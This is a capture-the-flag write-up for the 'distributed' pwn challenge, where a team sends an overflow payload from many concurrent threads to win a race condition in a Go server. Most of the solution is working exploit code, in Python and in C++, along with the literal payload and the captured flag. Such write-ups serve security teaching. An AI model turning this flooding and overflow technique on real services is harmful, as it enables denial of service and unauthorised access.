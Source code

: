 # pwn / distributed

> Points: 300

## Question

> Go is the language of distributed systems\
> `curl http://pwn.uwc.tf:2021/{username,password,flag}`
> Hint: the time-derived secret is a misdirection;
> you may not be able to brute-force it (not tested, not intended)

### Provided Files

- [`server.go`](./server.go)

## Solution

Based on `server.go`, we had to make the `digest` and `password` match 
(up to an MD5 hash).
These are stored next to each other in memory, preceded by `username`.
We attempted buffer overflow, but those didn't work.

What ended up happening was we tried DOSing the server,
with something like Rowhammer in mind and hoping we achieve a race condition.
With a name like "distributed", we figured that would come into play.
We originally tried doing this with Python,
which only worked locally for some reason:

```py
import requests, threading, time, hashlib

ADDR = 'http://pwn.uwc.tf:2021'
#ADDR = 'http://localhost:2021'

SEND_DATA = b"A"*256
SEND_DATA += b"A"*(128)
SEND_DATA += hashlib.md5(b"A"*128).digest()
SEND_DATA += b"A"*(128-16)

def dos(path, expected_status):
    while True:
        res = requests.post(url=ADDR+path,
                            data= SEND_DATA,
                            headers={'Content-Type': 'application/octet-stream'})
        if (res.status_code != expected_status):
            print(res.text)

def do_flag(path, expected_status):
    while True:
        res = requests.get(url=ADDR+path)
        if (res.status_code != expected_status):
            print(res.text)

print(requests.post(url=ADDR+'/username',data= "A"*512,
                            headers={'Content-Type': 'application/octet-stream'}))
time.sleep(2)
print("SMASH")
for i in range(10):
    threading.Thread(target= dos, args=("/username",200)).start()
    threading.Thread(target= dos, args=("/password",200)).start()
    threading.Thread(target= do_flag, args=("/flag",403)).start()
    print("Lanched " + str(i))
```

After contacting the challenge author,
we found that the challenge was sensitive to network latency.
This wasn't great, considering we were working over both seas.
Eventually, we got it working in C++:

```cpp
#include "HTTPRequest.hpp"
#include <stdio.h>
#include <thread>
#include <iostream>

std::string payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaf5\xb0\xd3H\xe5\x16 6\xe1\x833\x9d8[\x0cAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
void DOS(std::string path,int expected)
{
    while(true) {
        try
        {
            http::Request request("http://localhost:2021"+path);
            // send a post request
            const http::Response response = request.send("POST", payload, {
                "Content-Type: application/octet-stream"
            });
            if (response.status != expected)
                std::cout << std::string(response.body.begin(), response.body.end()) << '\n'; // print the result
        }
        catch (const std::exception& e)
        {
            std::cerr << "Request failed, error: " << e.what() << '\n';
        }
    }
}

int main() {
    std::thread t1(DOS, "/username", 200);
    std::thread t2(DOS, "/password", 200);
    std::thread t3(DOS, "/flag", 403);
    
    t1.join();
    t3.join();
    t2.join();
}
```

This ended up working.
We still don't know why.

### Flag

`uwctf{lol_no_memory_safety_b7947a8153e57612}`
